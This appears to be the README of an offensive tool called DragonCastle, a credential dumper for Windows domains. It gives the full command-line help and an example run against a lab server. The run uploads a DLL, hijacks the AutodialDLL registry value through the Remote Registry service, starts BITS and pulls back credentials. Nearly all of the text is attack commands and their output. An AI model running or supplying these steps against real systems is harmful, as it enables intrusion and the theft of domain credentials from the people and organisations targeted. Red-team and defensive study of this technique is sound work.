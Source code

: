 # Usage
```bash
psyconauta@insulanova:~/Research/dragoncastle|⇒  python3 dragoncastle.py -h                                                                                                                                            
		DragonCastle - @TheXC3LL


usage: dragoncastle.py [-h] [-u USERNAME] [-p PASSWORD] [-d DOMAIN] [-hashes [LMHASH]:NTHASH] [-no-pass] [-k] [-dc-ip ip address] [-target-ip ip address] [-local-dll dll to plant] [-remote-dll dll location]

DragonCastle - A credential dumper (@TheXC3LL)

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        valid username
  -p PASSWORD, --password PASSWORD
                        valid password (if omitted, it will be asked unless -no-pass)
  -d DOMAIN, --domain DOMAIN
                        valid domain name
  -hashes [LMHASH]:NTHASH
                        NT/LM hashes (LM hash can be empty)
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name or Kerberos name and you cannot resolve it
  -local-dll dll to plant
                        DLL location (local) that will be planted on target
  -remote-dll dll location
                        Path used to update AutodialDLL registry value
```

# Example

Windows server on `192.168.56.20` and Domain Controller on `192.168.56.10`:
```bash
psyconauta@insulanova:~/Research/dragoncastle|⇒  python3 dragoncastle.py -u vagrant -p 'vagrant' -d WINTERFELL -target-ip 192.168.56.20 -remote-dll "c:\dump.dll" -local-dll DragonCastle.dll                          
		DragonCastle - @TheXC3LL


[+] Connecting to 192.168.56.20
[+] Uploading DragonCastle.dll to c:\dump.dll
[+] Checking Remote Registry service status...
[+] Service is down!
[+] Starting Remote Registry service...
[+] Connecting to 192.168.56.20
[+] Updating AutodialDLL value
[+] Stopping Remote Registry Service
[+] Checking BITS service status...
[+] Service is down!
[+] Starting BITS service
[+] Downloading creds
```